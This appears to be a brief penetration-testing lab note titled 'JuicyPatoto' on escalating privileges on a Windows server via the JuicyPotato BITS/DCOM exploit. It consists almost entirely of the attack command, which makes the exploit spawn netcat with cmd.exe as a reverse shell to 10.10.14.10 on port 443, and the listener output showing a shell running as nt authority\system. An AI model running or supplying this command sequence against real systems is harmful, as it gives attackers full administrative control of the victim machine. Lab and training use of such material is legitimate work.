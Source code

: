 # JuicyPatoto
## exploit: BITS/DCOM MITM (windows server)

JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\sophie\documents\nc.exe -e cmd.exe 10.10.14.10 443" -t *


listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.110.3] 25052
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system

